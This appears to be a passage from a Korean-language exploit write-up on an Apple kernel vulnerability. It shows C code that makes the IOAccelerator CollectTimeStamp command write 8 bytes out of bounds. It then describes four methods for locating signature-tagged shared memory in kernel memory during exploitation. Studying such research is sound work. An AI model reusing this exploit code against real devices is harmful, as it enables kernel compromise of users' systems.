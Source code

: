 ```cpp
    
    *cmdbuf = command_buffer_shmem;
    *seglist = segment_list_shmem;
    
    submit_args.header.count = 1;
    submit_args.command.command_buffer_shmem_id = command_buffer_shmem.shmem_id;
    submit_args.command.segment_list_shmem_id = segment_list_shmem.shmem_id;

    struct IOAccelSegmentListHeader *slh = segment_list_shmem.data;
    slh->length = 0x100;
    slh->segment_count = 1;
    
    struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
    srlh->kernel_commands_start_offset = 0;
    srlh->kernel_commands_end_offset = buffer_size;
    
    // this is just a filler for the first 0x4000 - n bytes, timestamp written in off_timestamp = 8
    struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = command_buffer_shmem.data;
    cmd1->command.type = 2;
    cmd1->command.size = (uint32_t)buffer_size - 16;
    
    // put command 2 after command 1, so now timestamp written in cmd1->command.size + off_timestamp (8) = 0x4000 <= 8 bytes written OOB!
    struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
    cmd2->command.type = 2;
    cmd2->command.size = 8;
    
    return IOAccelCommandQueue2_submit_command_buffers(&submit_args.header, sizeof(submit_args));
}

...

    struct IOAccelDeviceShmemData cmdbuf, seglist;
    uint64_t command_buffer_shmem_sig = 0x4142434445464748;
	  uint64_t segment_list_shmem_sig = 0x5152535455565758;
    ret = alloc_shmem_with_sig(96 MB, &cmdbuf, &seglist, command_buffer_shmem_sig, segment_list_shmem_sig);

    if (ret) {
        ERROR("Failed to allocate shared memory\n");
        goto err;
    }
```

시그니처를 통해 공유메모리가 각각 어느 주소에 위치한지 알아내기 위해 여러번 시행착오를 겪었다.

`helper/find_shmem.c` 파일의 `find_shmem_in_kernel_[1, 2, 3, 4]` 함수에서 확인할 수 있다.

4개의 아이디어를 생각해낸 끝에, 마지막 4번 방법으로 주소를 가져오는데 성공했다. (수행하는데 대략 10초 이상 걸림)

1. `gIOKitPageableSpace_start`에서 `gIOKitPageableSpace_end`까지 매 +0x1000씩 더해 값을 읽었을때 우리의 시그니처가 있는지 확인하기
2. `gIOKitPageableSpace`에 속한 `vm_map`의 `next` 필드에 접근 및 순회하며 `map->start` 필드의 +0x1000 위치에 우리의 시그니처가 있는지 확인하기
3. 할당받은 유저레벨의 공유메모리 주소를 물리주소로 변환한다음, 커널 가상메모리 주소로 변환하기.
4. 이전에 IOSurface를 활용하여 할당했던 82MB `dict_entry` 주소에서 어림잡아 값을 더한 
찾을 베이스 주소에서 매 +0x1000씩 더해 값을 읽었을때 우리의 시그니처가 있는지 확인하기 
